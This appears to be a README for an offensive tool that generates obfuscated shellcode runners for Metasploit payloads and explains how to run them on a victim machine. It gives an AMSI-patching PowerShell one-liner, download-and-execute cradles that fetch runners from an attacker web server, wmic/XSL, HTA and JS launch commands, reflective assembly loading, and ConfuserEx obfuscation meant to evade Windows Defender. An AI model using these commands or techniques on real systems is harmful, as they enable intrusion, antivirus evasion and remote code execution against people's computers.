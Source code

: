 # Description

## Usage

### Static Variables 
| Variables | Description |
| --- | --- |
| PROCESS_TO_INJECT | Contains the process names that you want to inject into|
| MSFVENOM_PAYLOAD | MSF Payload |
| LHOST | Listener IP |
| LPORT | Listener Port | 

### Payload prefixes
| Name | Description |
| --- | --- |
| _embedded | If the generated payload contains the word **embedded** then the **shellcode** is located inside the generated executable. |
| _marshal | If the generated payload contains the word **marshal** then payload will be injected to executable's memory space. |
| _numa | If the generated payload contains the word **numa** then **VirtualAllocExNuma** was used insetad of **VirtualAllocEx** |
| _FlsAlloc | If the generated payload contains the word **FlsAlloc** then **FlsAlloc** API was used. |

#### Example
When payload is generated with name shellcode_runner_assembly_FlsAlloc_marshal.exe, it means:
- FlsAlloc API was used
- The Shellcode will be injected to executable's address space (Not to a remote process).

### Payload execution

**[+] Triple DES [+]**

The 3DES payloads are located under payloads/3DES/ directory. There are two payloads and need to be executed diferrently. 

#### Method 1
The executable **des_decryptor.exe** is downloading the file from your Web server and executes it reflectively.
```cmd> des_decryptor.exe http://KALI_IP/<SHELLCODE_RUNNER>```

#### Method 2
The executable embedds a shellcode runner. You can run it without providing any commands. 
```cmd> des_decryptor_embedded.exe```

**[+] AMSI Bypass [+]**
There are two methods to bypass AMSI:
- Patching 
- Unhooking

#### Method 1
Patching template is what Offensive-Security teaches in OSEP with some small changes. The execution of 1st method (Patching) is straight forward and uses well-known methodologies.
```$m="System.Management.Automation.Ams";[Ref].Assembly.GetType("$m"+"iUtils").GetField('amsiInitFai'+'led','NonPublic,Static').SetValue($null,$true)```

```
# XOR RAX,RAX 
$buf = [Byte[]] (0x48,0x31,0xC0)  
```

Execute AMSI Shellcode runner
``` powershell -nop -exec bypass -c IEX((New-Object Net.WebClient).DownloadString('http://<IP>/shellcode_runner.html')); ``` 

#### Method 2
To unhook AMSI, I've used the project by jfmaes - AmsiHooker (https://github.com/jfmaes/AmsiHooker) and I permfored some small changes. When AmsiHooker executable will launched, it will download the Shellcode Runner from your web server and it will reflectively execute it.

**Steps**
1. Upload unhook_amsi.exe and MinHook.NET.dll to victim. (Files located under payloads/AMSI/)
2. unhook_amsi.exe http://<KALI>/shellcode_runner.exe

**[+] Executing .XSL, .JS, .HTA [+]**

Under directory payloads/DotNetToJScript/, you find three shellcode ruuners that generated with DotNetToJScript (https://github.com/tyranid/DotNetToJScript). 

Executing .XSL shellcode runner
```
wmic process list /FORMAT:evil.xsl
wmic os get /FORMAT:"https://example.com/evil.xsl"
```

Executing .HTA shellcode runner
```
mshta c:\users\public\shellcode_runner.hta
```

Executing .JS shellcode runner
```
wscript c:\users\public\shellcode_runner.js
```

More execution methods can be found:
- https://lolbas-project.github.io/


**[+] ConfuserX + Net-Obfuscator [+]**

During my tests, I noticed that Windows Defender could detect my payloads genereted by ConfuserEx (https://github.com/yck1509/ConfuserEx). For this reason, I combined ConfuserEx + Net-Obfuscator (https://github.com/BinaryScary/NET-Obfuscate). 

First, payloads that are located under payloads/XOR/ and payloads/Caesar/ directories, feed the ConfuserEx tool and subsequently the new obfuscated binaries are imported to Net-Obfuscator. As a result, the GetType and GetMethod values are obfuscated and  dynamically created.

Example 1 - Execution of 'payloads/Caesar/shellcode_runner_assembly_numa.exe' Reflectively.
```
[+] Creating DLL/EXE file (ConfuserEx + .NET Obfuscator) ...

 [!] Obfuscating CAESAR -> shellcode_runner_assembly_numa.exe
 [*] PS>$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/shellcode_runner.exe|dll')
 [*] PS>$ass=[System.Reflection.Assembly]::Load($data)
 [*] PS>$ass.GetType("J46IIOTXPW.PZAZUJAD4V").GetMethod("NK6WAROB2W").Invoke($null,$null)
```